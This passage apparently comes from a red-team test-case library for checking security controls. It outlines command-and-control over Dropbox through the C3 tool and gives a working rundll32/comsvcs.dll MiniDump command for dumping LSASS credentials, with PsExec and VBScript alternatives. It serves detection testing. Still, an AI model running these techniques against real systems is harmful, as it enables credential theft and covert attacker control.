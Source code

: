 - The maliciousness level of the binary should align with the intent of the test. For testing signature-based checks, use a known malicious tool, such as Mimikatz. For testing sandboxing or similar network security technologies, use an unknown yet still overtly malicious tool, such as one built around the current attack infrastructure. By default, start with the most malicious choice.

## Web Service C2 - via Dropbox C3 channel

Establish a command-and-control channel via a legitimate web service so that malicious traffic is masked

Use C3's Dropbox channel for command-and-control

### Prerequisites

1. Install and run C3 on a server
2. Create a Dropbox account 
3. Create a Dropbox developer app with read/write permissions then copy the access token
4. Create a Dropbox channel in C3 using the app token
5. Export a relay payload

### Guidance

Execute the relay payload

### References

1. Example of C3 using Dropbox: https://labs.withsecure.com/publications/attack-detection-fundamentals-c2-and-exfiltration-lab-3

# Credential Access

## LSASS dumping using comsvcs.dll - via rundll32.exe

Use `rundll32.exe` to call the `MiniDump` export from `comsvcs.dll`

### Prerequisites

- Administrator rights
- SeDebugPrivilege

### Guidance

```
shell> rundll32.exe c:\windows\system32\comsvcs.dll MiniDump {{ lsass_pid }} {{ outpath }} full
```

This command must be run from a shell process that has `SeDebugPrivilege` enabled. 
PowerShell should work to this end. 

You can acquire `SeDebugPrivilege` for `cmd.exe` by launching it as `SYSTEM` via Sysinternals' `PsExec` (`psexec -sid cmd`). 
Alternatively, you can use the VBScript file from `modexp`: https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/ (`cscript procdump.vbs lsass.exe`)

